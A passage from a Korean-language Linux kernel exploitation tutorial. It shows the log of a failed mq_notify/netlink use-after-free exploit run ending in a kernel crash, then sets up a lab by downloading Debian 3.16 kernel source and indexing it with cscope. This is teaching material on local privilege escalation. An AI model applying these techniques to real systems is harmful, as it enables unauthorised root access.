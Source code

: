 ```bash
[ ] flooding socket
[+] flood completed
[+] blocking socket ready
[+] netlink fd duplicated (unblock_fd=403, sock_fd2=404)
[ ] creating unblock thread...
[+] unblocking thread has been created!
[ ] get ready to block
[ ][unblock] closing 576 fd
[ ][unblock] unblocking now
[+] mq_notify succeed
[ ] creating unblock thread...
[+] unblocking thread has been created!
[ ] get ready to block
[ ][unblock] closing 404 fd
[ ][unblock] unblocking now
[ 55.395645] Freeing alive netlink socket ffff88001aca5800
[+] mq_notify succeed
[+] guard socket closed
[ 60.399964] general protection fault: 0000 [#1] SMP
... cut (other crash dump info) ...

<<< HIT CTRL-C >>>
```

타겟이 다르기 때문에 익스플로잇에 실패하고 루트 권한도 얻지 못 했다. part 3 과 4를 보면 알겠지만 수정이 필요하다. 그러나 방금의 결과는 우리가 버그에 도달할 수 있다는 것을 입증해준다.

**주의**: 문서에서 쓰인 타겟과 제시된 타겟의 다른 차이점들 때문에 **커널 크래시가 나지 않을 것이다**(part 2 참고). 그 이유는 커널이 위와 같은 특정 에러에선 크래시가 나지 않고 익스플로잇을 종료시키기 때문이다. 그러나 커널은 불안정한 상태에 있고 언제든 크래시가 날 수 있다. 코드를 읽고 어떤 차이점이 있는지 이해하는 것을 권장한다.

### Getting Kernel Source Code

시스템을 설치하여 준비가 되었다면 커널 소스 코드를 얻을 차례다. 타겟이 *구식(outdated)* 커널을 쓰므로 다음 명령어를 이용하자:

```bash
# wget https://snapshot.debian.org/archive/debian-security/20160904T172241Z/pool/updates/main/l/linux/linux-source-3.16_3.16.36-1%2Bdeb8u1_all.deb
```

그리고 다음 명령어를 입력한다:

```bash
# dpkg -i linux-source-3.16_3.16.36-1+deb8u1_all.deb
```

커널 소스 코드는 다음 위치에 존재해야 한다: **/usr/src/linux-source-3.16.tar.xz**

타겟 커널이 **크래시가 잘 나므로**, 커널 코드 분석과 익스플로잇 개발을 **호스트 시스템에서** 수행해야 한다. That is, get those source back to your host system. 타겟은 SystemTap을 이용하는 것과 익스플로잇을 컴파일하고 실행하는 데만 이용해야 한다(ssh를 쓰자!).

여기서부턴 어떤 코드 크롤링 툴을 사용해도 된다. 심볼들을 효율적으로 상호 참조(cross-reference)할 **필요가 있다**. 그렇지 않으면 리눅스의 수많은 코드 사이에서 길을 잃을지도 모른다.

많은 커널 개발자들은 **cscope**를 사용한다. [이 방법](http://cscope.sourceforge.net/large_projects.html)을 사용하거나 다음 명령어를 사용하여 상호 참조를 만들어낼 수 있다:
